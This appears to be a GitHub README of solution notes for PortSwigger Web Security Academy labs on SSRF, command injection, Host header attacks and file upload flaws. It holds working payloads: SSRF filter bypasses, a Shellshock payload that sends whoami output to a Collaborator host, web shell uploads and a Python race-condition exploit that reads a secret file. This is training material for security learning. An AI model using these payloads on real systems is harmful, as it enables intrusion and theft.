 ## Server-side request forgery (SSRF) ✅
1. <b>Basic SSRF against the local server</b> - Go to one product from the home page and press `check stock`(intercept it with burp) send it to repeater and you will find a parameter named `stockApi` which has a url. In this url if we put `http://localhost/admin` and send the request we will see the admin panel. To solve this lab we have to put in `stockApi` param `http://localhost/admin/delete?username=carlos`
2. <b>Basic SSRF against another back-end system</b> - network pivoting send requests to intruder and `stockApi=http://192.168.0.$ip$:8080/admin` 
3. <b>SSRF with blacklist-based input filter</b> - `http://127.1/%2561dmin/delete?username=carlos`
4. <b>SSRF with filter bypass via open redirection vulnerability</b> - `/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos`
5. <b>Blind SSRF with out-of-band detection</b> - Go to home page and press one of products while you intercepting the requests and you will see the `referer` header. After that go to `burp collaborator` and change the `referer` value to http://xxxxx.collaboratorburp.net and the lab is solved. 
6. <b>SSRF with whitelist-based input filter</b> - For this lab we have to get the access to admin panel and delete carlos account but its not the same like the old times. For the solution the first step is to go in one product and press `check stock` and pass this url into to `api parameter` `http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos`
7. <b>Blind SSRF with Shellshock exploitation</b> - Solution for tihs labs is combination of the `Blind SSRF with out-of-band detection` and the `SSRF network pivoting`. First of all we have to intercept a requests when we send a get requests for a product and send it to `intruder` after that we can see `User-Agend` & `Referer` headers so far so good.
For exploitation part:<br>
<b>User-Agent header</b> - Delete the old string and paste this payload: <br>
`() { :; }; /usr/bin/nslookup $(whoami).4diew0hehvzuachcyn7t9rpax13s3gs.burpcollaborator.net` <br>
<b>Referer header</b> - Delete the old strings and put the ip `http://192.168.0.X:8080/` but and the X letter we have to put the $ symbols and in payload tab we have to choose `numbers` starting from 1 to 255 with step 1 and start the attack. After a few requests we can see our results in burpcollaborator.

## OS command injection
1. <b>OS command injection, simple case</b> - Go to `https://xxxx.web-security-academy.net/product?productId=x` and start intercepting from burp while pressing the check stock button. Send it to repeater and chain the `whoami` command at the end of productId=x `productId=333;whoami&storeId=1`
2. <b>Blind OS command injection with time delays</b> - 


## HTTP Host header attacks
1. <b>Basic password reset poisoning</b> - To solve this lab first of all we have to use the "forgot the password" functionality.<br>
Go to login page and click "forgot the password" <br>
Go to the exploit server and open the email client. Observe that you have received an email containing a link to reset your password. Notice that the URL contains the query parameter `temp-forgot-password-token.` <br>
Click the link and change your password to what ever but first you have to intercept the request and send it to repeater <br>
For the next step you have to change the `HOST` header at your request in repeater to your exploit server url `exploit-xxx.web-security-academy.net` change to username to `carlos` and send the request. <br>
Go to exploit server and press the button `access log` and you will see a `GET` request with the token for password reset <br>
The final steps is to go in the first email and press the link for reset password and after that you have to change the token in the url to the new one and change the password to something new.
2. <b>Host header authentication bypass</b> - To solve this lab we need to go to /admin(admin panel) and delete carlos account. To do that follow these steps:<br>
Intercept the get requests to the xxxxx.lab.com/admin and send it to repeater <br>
Press <b>Send</b> and you will see this message <b>Admin interface only available to local users</b> <br>
The last step is to change <h>host</b> header value to localhost and send again the reqeusts and after that we will get admin panel access.
3. <b>Web cache poisoning via ambiguous requests</b> - 
4. <b></b> - 
5. <b></b> - 
6. <b></b> - 

## File upload vulnerabilities ✅
1. <b>Remote code execution via web shell upload</b> - Try to upload just a php script with .php extension
2. <b>Web shell upload via Content-Type restriction bypass</b> - Try to change <b>content-type</b> from x-php to <b>image/png</b>
3. <b>Web shell upload via path traversal</b> - Change the <b>filename</b> from burpsuite intercept to <b>..%2fget_flag.php</b> and get the flag to /files/avatars/../get_flag.php
4. <b>Web shell upload via extension blacklist bypass</b> - Change the filename from <b>.php</b> extension to <b>.phtlm</b> extension and upload it
5. <b>Web shell upload via obfuscated file extension</b> - Intercept upload request and change the filename with extension <b>.php%00.png</b> - <b>Null byte technique</b>
6. <b>Remote code execution via polyglot web shell upload</b> - For this lab we have to use <b>exiftool</b> and one random .jpg or .png image. The exploitation part `exiftool -comment="<?php system('badstuff');?>" image_name.png or .jpg -o get_flag.php` after that a php file will created with get_flag.php name upload it and redirect into it to get the flag.
7. <b>Web shell upload via race condition</b> - At the lab description we can find a <b>hint</b> which has inside the source code of upload functionality.
Lets explain the code
```php
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}
```
"As you can see from the source code above, the uploaded file is moved to an accessible folder, where it is checked for viruses. Malicious files are only removed once the virus check is complete. This means it's possible to execute the file in the small time-window before it is removed. "
<br>
So I create a exploit with python multithreading,requests modules just to grab the flag.
```python
import requests
import threading

def upload_exploit():
	burp0_url = "https://0aa000fc0444aa3dc03a8981009500e6.web-security-academy.net:443/my-account/avatar"
	burp0_cookies = {"session": "sbjdev7ZM9sCuhQ2irsKrh0SjX7wddRT"}
	burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://0aa000fc0444aa3dc03a8981009500e6.web-security-academy.net/my-account", "Content-Type": "multipart/form-data; boundary=---------------------------35393652352872705425704695024", "Origin": "https://0aa000fc0444aa3dc03a8981009500e6.web-security-academy.net", "Upgrade-Insecure-Requests": "1", "Sec-Fetch-Dest": "document", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-User": "?1", "Te": "trailers", "Connection": "close"}
	burp0_data = "-----------------------------35393652352872705425704695024\r\nContent-Disposition: form-data; name=\"avatar\"; filename=\"get_flag.php\"\r\nContent-Type: application/x-php\r\n\r\n<?php system('cat /home/carlos/secret')?>\n\r\n-----------------------------35393652352872705425704695024\r\nContent-Disposition: form-data; name=\"user\"\r\n\r\nwiener\r\n-----------------------------35393652352872705425704695024\r\nContent-Disposition: form-data; name=\"csrf\"\r\n\r\nHEhkjls5YL1vQsQRNl2qJrpSAqeAsGMK\r\n-----------------------------35393652352872705425704695024--\r\n"
	requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)


def get_flag():
	endpoint = "https://0aa000fc0444aa3dc03a8981009500e6.web-security-academy.net:443/files/avatars/get_flag.php"
	r=requests.get(endpoint)
	print(r.text)
	

t1 = threading.Thread(target=upload_exploit, name='t1')
t2 = threading.Thread(target=get_flag, name='t2')  
  
t1.start()
t2.start()
  
t1.join()
t2.join()

```

 [More tricks about file upload vulnerabilities](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files#upload-tricks)
